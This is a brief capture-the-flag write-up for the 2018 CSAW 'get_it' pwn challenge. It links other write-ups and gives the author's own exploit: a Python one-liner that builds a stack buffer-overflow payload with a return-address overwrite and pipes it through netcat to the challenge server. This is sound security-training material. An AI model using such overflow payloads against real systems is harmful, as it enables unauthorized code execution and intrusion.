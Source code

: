 **Category:** Pwn
**Points:** 50
**Solved:** 535
**Description:**

> Do you get it?

<p align="center">
<img src="resources/pwn-50-get_it/_description.PNG"/>
</p>


### Write-up
I tried writing a write-up but after reading another one, I felt uncomfortable to write it.

This is the greatest write-up of this task that I recommand reading it :

[https://ctftime.org/writeup/11221](https://ctftime.org/writeup/11221)

Which is a shortcut it this one :

[https://github.com/b01lers/writeups/blob/master/2018/csaw/get_it/writeup.md](https://github.com/b01lers/writeups/blob/master/2018/csaw/get_it/writeup.md)

My solution was closer because it remains to some payload :

```
python -c "print 'A'*40+'\xb6\x05\x40\x00\x00\x00\x00\x00'" > payload
(cat payload; cat) | nc pwn.chal.csaw.io 9001
```

Output :

<p align="center">
<img src="resources/pwn-50-get_it/1.PNG"/>
</p>
